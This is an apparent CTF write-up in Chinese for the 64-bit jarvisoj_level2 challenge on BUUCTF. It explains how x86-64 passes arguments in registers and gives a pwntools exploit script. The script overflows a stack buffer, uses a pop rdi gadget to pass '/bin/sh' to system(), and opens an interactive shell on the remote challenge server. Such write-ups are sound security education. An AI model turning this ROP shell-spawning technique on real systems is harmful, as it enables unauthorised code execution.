 首先checksec

![image-20201103153919908](https://static.hack1s.fun/images/2021/02/06/image-20201103153919908.png)

这个题目和之前的jarvisoj_level2基本是一样的思路，主要差异就在于这个是64位的



因为是64位的，函数调用时不是先看栈里的数据，顺序首先是几个寄存器

当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9

我们想要调用起来`system('/bin/sh')`

只需要这一个参数，所以需要将`/bin/sh`弹出到`rdi`中

```python
from pwn import *

io = remote('node3.buuoj.cn',28844)
#io  = process('./level2')
elf = ELF('./level2_x64')

pop_rdi = 0x4006b3
payload = 'a'*0x80 + 'b'*0x8 + p64(pop_rdi) + p64(elf.sym['hint']) + p64(elf.sym['system'])

io.readline()
io.sendline(payload)

io.interactive()
```


